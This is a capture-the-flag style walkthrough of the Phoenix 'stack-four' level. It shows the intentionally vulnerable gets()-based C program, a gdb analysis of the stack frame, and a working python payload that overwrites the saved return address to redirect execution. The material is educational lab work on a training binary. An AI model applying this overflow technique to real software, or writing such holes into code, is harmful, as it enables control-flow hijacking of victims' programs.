





Phoenix: Stack Four
Goal: Execute the function complete_level by modifying the saved return address, and pointing it to the complete_level() function.
Source code:
/*
* phoenix/stack-four, by https://exploit.education
*
* The aim is to execute the function complete_level by modifying the
* saved return address, and pointing it to the complete_level() function.
*
* Why were the apple and orange all alone? Because the bananna split.
*/
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BANNER \
"Welcome to " LEVELNAME ", brought to you by https://exploit.education"
char *gets(char *);
void complete_level() {
printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
exit(0);
}
void start_level() {
char buffer[64];
void *ret;
gets(buffer);
ret = __builtin_return_address(0);
printf("and will be returning to %p\n", ret);
}
int main(int argc, char **argv) {
printf("%s\n", BANNER);
start_level();
}
This is it, the standard buffer overflow /o/, where you take control of the execution flow.
Test run:
$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x804855c
This challenge is a bit different from the previous one:
- The vulnerability is still caused by the use of the
gets()function. - The variables
bufferandretare no longer in astruct. - The code is in a function
start_level()called from main. - Our goal is to call the
complete_level()function.
Let’s have a closer look at the ret variable:
void *ret;
[...]
ret = __builtin_return_address(0);
Some information about __builtin_return_address can be found in the documentation of gcc:
Built-in Function: void * __builtin_return_address (unsigned int level)
This function returns the return address of the current function, or of one of its callers. The level argument is number of frames to scan up the call stack. A value of 0 yields the return address of the current function, a value of 1 yields the return address of the caller of the current function, and so forth. When inlining the expected behavior is that the function returns the address of the function that is returned to. To work around this behavior use the noinline function attribute.
ret is a variable which helps us by printing the return address of the current function. If we run the binary with no argument, we return to 0x804855c.
Let’s see where this address is…
$ gdb -q ./stack-four
gef➤ disas main
Dump of assembler code for function main:
0x08048536 <+0>: lea ecx,[esp+0x4]
0x0804853a <+4>: and esp,0xfffffff0
0x0804853d <+7>: push DWORD PTR [ecx-0x4]
0x08048540 <+10>: push ebp
0x08048541 <+11>: mov ebp,esp
0x08048543 <+13>: push ecx
0x08048544 <+14>: sub esp,0x4
0x08048547 <+17>: sub esp,0xc
0x0804854a <+20>: push 0x8048610
0x0804854f <+25>: call 0x8048320 <puts@plt>
0x08048554 <+30>: add esp,0x10
0x08048557 <+33>: call 0x8048505 <start_level>
0x0804855c <+38>: mov eax,0x0
0x08048561 <+43>: mov ecx,DWORD PTR [ebp-0x4]
0x08048564 <+46>: leave
0x08048565 <+47>: lea esp,[ecx-0x4]
0x08048568 <+50>: ret
End of assembler dump.
So by default, ret points to 0x804855c, which is just after the call to start_level(). We need to overwrite the value of ret so that it points to the address to complete_level.
gef➤ disas start_level
Dump of assembler code for function start_level:
0x08048505 <+0>: push ebp
0x08048506 <+1>: mov ebp,esp
0x08048508 <+3>: sub esp,0x58
0x0804850b <+6>: sub esp,0xc
0x0804850e <+9>: lea eax,[ebp-0x4c]
0x08048511 <+12>: push eax
0x08048512 <+13>: call 0x8048310 <gets@plt>
0x08048517 <+18>: add esp,0x10
0x0804851a <+21>: mov eax,DWORD PTR [ebp+0x4]
0x0804851d <+24>: mov DWORD PTR [ebp-0xc],eax
0x08048520 <+27>: sub esp,0x8
0x08048523 <+30>: push DWORD PTR [ebp-0xc]
0x08048526 <+33>: push 0x80485f3
0x0804852b <+38>: call 0x8048300 <printf@plt>
0x08048530 <+43>: add esp,0x10
0x08048533 <+46>: nop
0x08048534 <+47>: leave
0x08048535 <+48>: ret
End of assembler dump.
Note that we aren’t in main() anymore but in start_level(). Let’s draw a stack:
| Assembly | Stack |
|---|---|
| 0x08048554 <+30>: add esp,0x10 |  |
| Assembly | Stack |
|---|---|
| 0x08048557 <+33>: call 0x8048505 <start_level>0x08048505 <+0>: push ebp 0x08048506 <+1>: mov ebp,esp |  |
| Assembly | Stack |
|---|---|
| 0x08048508 <+3>: sub esp,0x58 |  |
| Assembly | Stack |
|---|---|
| 0x0804850b <+6>: sub esp,0xc |  |
From the usage of the variable, we can guess where are buffer and ret:
0x0804850e <+9>: lea eax,[ebp-0x4c]
0x08048511 <+12>: push eax
0x08048512 <+13>: call 0x8048310 <gets@plt>
[ebp-0x4c] is a parameter of gets() so it’s buffer.
0x0804851a <+21>: mov eax,DWORD PTR [ebp+0x4]
0x0804851d <+24>: mov DWORD PTR [ebp-0xc],eax
0x08048520 <+27>: sub esp,0x8
0x08048523 <+30>: push DWORD PTR [ebp-0xc]
0x08048526 <+33>: push 0x80485f3
0x0804852b <+38>: call 0x8048300 <printf@plt>
The value of referenced at [ebp+0x4] is copied to a buffer located at [ebp-0xc] and then used by printf(). So [ebp-0xc] should point to our ret variable, which fetches the return address at [ebp+0x4].The final stack looks like this:

So we need to overwrite:
- buffer, which is at EBP-4C, 76 bytes
- saved EBP, 4 bytes
- return address, 4 bytes
In total, 84 bytes, let’s verify this:
$ python -c "print('A'*80 + 'B'*4)" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x42424242
Segmentation fault (core dumped)
The return address is 0x42424242, which means we now control the return address.
Let’s look for the address of complete_level():
$ nm stack-four | grep complete_level
080484e5 T complete_level
Replace our BBB with the address of complete_level() and voila:
$ python -c "print('A'*80 + '\xe5\x84\x04\x08')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!